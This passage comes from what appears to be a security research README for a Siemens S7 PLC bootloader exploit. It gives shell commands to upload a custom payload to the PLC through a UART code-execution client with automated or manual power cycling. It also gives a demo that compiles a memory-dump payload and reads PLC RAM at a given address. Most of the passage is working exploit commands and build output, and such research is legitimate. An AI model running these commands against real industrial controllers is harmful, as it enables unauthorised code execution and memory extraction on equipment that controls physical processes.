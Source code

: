 This will generate `hello_loop.bin` file, which will be used by our client utility and will be uploaded to the PLC to get executed. Now we can send the payload to the PLC using tictactoe mode with different payload:


```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce$ sh client.sh --switch-power --powersupply-fx3u-ip 192.168.1.18 --powersupply-fx3u-port 502 --powersupply-fx3u-output Y0 --powersupply-delay=1 hello_loop --payload=payloads/hello_loop/build/hello_loop.bin
```

**With manual power cycle using `--no-power-supply`:**
```console
# Replace <PORT> with the TCP port socat is listening on.
# Manually power cycle the PLC.
python3 client.py --port <PORT> --no-power-supply hello_loop --payload payloads/hello_loop/build/hello_loop.bin
```


### DEMO 4: Dumping S7 PLC RAM

To dump the PLC memory, we would recommend to first turn on the PLC for few seconds, to let the PLC copy contents of the NAND flash to the RAM (alternatively you can wait as long as you want!). We specially designed `--powersupply-delay` argument in our utility for this purpose. We use dump mode in our utility followed by `-a` argument which user supplies address to dump and `-l` argument for the byte size.

Similar to other demos we need to first compile our payload:

```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce/payloads/dump_mem$ make
cc dump_mem.c
cc ../lib/stdlib.c
cc ../lib/print.c
cc ../lib/string.c
cc ../lib/read.c
ld dump_mem.sym
strip dump_mem
objcopy dump_mem.ihex
objcopy dump_mem.bin
```


Now we are ready to dump the PLC. Here we put power supply delay argument to 30 seconds (PLC turn on, wait 30 seconds for PLC to boot, then reset it and use special access feature). 


```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce$ sh client.sh --switch-power --powersupply-fx3u-ip 192.168.1.18 --powersupply-fx3u-port 502 --powersupply-fx3u-output Y0 --powersupply-delay=30 dump -a 0x691E28 -l 256 --dump-payload payloads/dump_mem/build/dump_mem.bin
```

**With manual power cycle using `--no-power-supply`:**
```console
# Replace <PORT> with the TCP port socat is listening on.
# Manually power cycle the PLC.
python3 client.py --port <PORT> --no-power-supply dump -a 0x691E28 -l 256 --dump-payload payloads/dump_mem/build/dump_mem.bin
```
